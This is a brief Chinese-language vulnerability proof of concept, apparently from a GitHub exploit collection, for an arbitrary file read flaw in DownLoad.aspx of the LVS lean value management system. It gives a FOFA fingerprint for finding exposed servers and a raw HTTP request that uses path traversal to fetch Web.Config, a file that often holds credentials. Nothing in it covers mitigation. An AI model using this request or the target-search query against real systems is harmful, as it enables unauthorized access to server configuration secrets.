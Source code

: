 ## LVS精益价值管理系统DownLoad.aspx存在任意文件读取漏洞



## fofa

```
body="/ajax/LVS.Core.Common.STSResult,LVS.Core.Common.ashx"
```



## poc

```
GET /Business/DownLoad.aspx?p=UploadFile/../Web.Config HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

